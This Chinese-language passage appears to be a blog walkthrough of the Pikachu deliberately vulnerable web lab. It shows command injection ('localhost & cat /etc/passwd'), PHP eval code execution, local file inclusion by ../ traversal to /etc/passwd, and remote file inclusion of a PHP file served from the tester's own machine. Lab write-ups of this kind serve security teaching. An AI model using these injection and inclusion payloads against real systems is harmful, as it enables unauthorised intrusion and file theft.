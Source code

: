 ## exec "ping"

![pikachu61](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu61.png)

要求输入IP地址，这里尝试拼接命令，提交后发现可以直接注入命令

```shell
localhost & cat /etc/passwd
```

![pikachu62](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu62.png)

## exec "evel"

![pikachu63](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu63.png)

要求输入字符串，提示说明使用了eval对接受的字符串进行了执行，提交后返回phpinfo页面

![pikachu64](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu64.png)

说明可以直接输入恶意php代码，进行RCE

# File Inclusion

## File Inclusion(local)

![pikachu65](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu65.png)

选择Kobe Bryant提交后，发现url发生了变化，疑似包含了file1.php文件

这里通过目录爆破，得到`../../../../`之后就是系统根目录了，这里成功包含了/etc/passwd目录

![pikachu66](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu66.png)

## File Inclusion(remote)

![pikachu67](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu67.png)

选择Kobe Bryant提交后，还是url发生了变化，这次尝试远程包含文件

编写include.php文件，vps启动http服务

```php
<?php phpinfo();?>
```

访问http://172.26.239.122/vul/fileinclude/fi_remote.php?filename=http://172.26.239.122:4444/include.php&submit=提交后成功远程包含

![pikachu68](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu68.png)
